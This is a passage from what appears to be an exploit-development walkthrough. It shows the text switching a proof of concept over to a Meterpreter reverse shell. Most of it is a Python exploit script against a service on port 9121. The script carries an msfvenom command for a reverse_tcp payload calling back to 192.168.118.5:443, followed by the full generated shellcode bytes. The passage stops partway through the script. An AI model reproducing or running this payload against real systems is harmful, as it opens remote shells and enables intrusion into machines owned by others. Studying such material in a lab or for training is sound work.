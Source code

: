 After running our latest proof of concept, we will single-step through the ADD operation and confirm that our stack alignment was successful before executing the jump:



OBTAINING A SHELL

Now replace the shellcode with meterpreters:
	#!/usr/bin/python
	import socket
	import sys
	from struct import pack
	
	try:
	  server = sys.argv[1]
	  port = 9121
	  size = 1000
	
	  # msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.118.5 LPORT=443 -b "\x00\x02\x0A\x0D\xF8\xFD" -f python -v shellcode
	  shellcode = b"\x90" * 20
	  shellcode += b""
	  shellcode += b"\xdb\xdd\xb8\xb3\xe9\xc8\x0b\xd9\x74\x24\xf4"
	  shellcode += b"\x5b\x29\xc9\xb1\x56\x31\x43\x18\x03\x43\x18"
	  shellcode += b"\x83\xeb\x4f\x0b\x3d\xf7\x47\x4e\xbe\x08\x97"
	  shellcode += b"\x2f\x36\xed\xa6\x6f\x2c\x65\x98\x5f\x26\x2b"
	  shellcode += b"\x14\x2b\x6a\xd8\xaf\x59\xa3\xef\x18\xd7\x95"
	  shellcode += b"\xde\x99\x44\xe5\x41\x19\x97\x3a\xa2\x20\x58"
	  shellcode += b"\x4f\xa3\x65\x85\xa2\xf1\x3e\xc1\x11\xe6\x4b"
	  shellcode += b"\x9f\xa9\x8d\x07\x31\xaa\x72\xdf\x30\x9b\x24"
	  shellcode += b"\x54\x6b\x3b\xc6\xb9\x07\x72\xd0\xde\x22\xcc"
	  shellcode += b"\x6b\x14\xd8\xcf\xbd\x65\x21\x63\x80\x4a\xd0"
	  shellcode += b"\x7d\xc4\x6c\x0b\x08\x3c\x8f\xb6\x0b\xfb\xf2"
	  shellcode += b"\x6c\x99\x18\x54\xe6\x39\xc5\x65\x2b\xdf\x8e"
	  shellcode += b"\x69\x80\xab\xc9\x6d\x17\x7f\x62\x89\x9c\x7e"
	  shellcode += b"\xa5\x18\xe6\xa4\x61\x41\xbc\xc5\x30\x2f\x13"
	  shellcode += b"\xf9\x23\x90\xcc\x5f\x2f\x3c\x18\xd2\x72\x28"
	  shellcode += b"\xed\xdf\x8c\xa8\x79\x57\xfe\x9a\x26\xc3\x68"
	  shellcode += b"\x96\xaf\xcd\x6f\xaf\xb8\xed\xa0\x17\xa8\x13"
	  shellcode += b"\x41\x67\xe0\xd7\x15\x37\x9a\xfe\x15\xdc\x5a"
	  shellcode += b"\xfe\xc3\x48\x51\x68\x2c\x24\x13\x6d\xc4\x36"
	  shellcode += b"\xdc\x6c\xaf\xbf\x3a\x3e\x9f\xef\x92\xff\x4f"
	  shellcode += b"\x4f\x43\x68\x9a\x40\xbc\x88\xa5\x8b\xd5\x23"
	  shellcode += b"\x4a\x65\x8d\xdb\xf3\x2c\x45\x7d\xfb\xfb\x23"
	  shellcode += b"\xbd\x77\x09\xd3\x70\x70\x78\xc7\x65\xe7\x82"
	  shellcode += b"\x17\x76\x82\x82\x7d\x72\x04\xd5\xe9\x78\x71"
	  shellcode += b"\x11\xb6\x83\x54\x22\xb1\x7c\x29\x12\xc9\x4b"
	  shellcode += b"\xbf\x1a\xa5\xb3\x2f\x9a\x35\xe2\x25\x9a\x5d"
	  shellcode += b"\x52\x1e\xc9\x78\x9d\x8b\x7e\xd1\x08\x34\xd6"
	  shellcode += b"\x85\x9b\x5c\xd4\xf0\xec\xc2\x27\xd7\x6e\x04"
	  shellcode += b"\xd7\xa5\x58\xad\xbf\x55\xd9\x4d\x3f\x3c\xd9"
	  shellcode += b"\x1d\x57\xcb\xf6\x92\x97\x34\xdd\xfa\xbf\xbf"
	  shellcode += b"\xb0\x49\x5e\xbf\x98\x0c\xfe\xc0\x2f\x95\xf1"
	  shellcode += b"\xbb\x40\x2a\xf2\x3b\x49\x4f\xf3\x3b\x75\x71"
	  shellcode += b"\xc8\xed\x4c\x07\x0f\x2e\xeb\x18\x3a\x13\x5a"
	  shellcode += b"\xb3\x44\x07\x9c\x96"
	  shellcode+= b"\x43" * (400 - len(shellcode))
	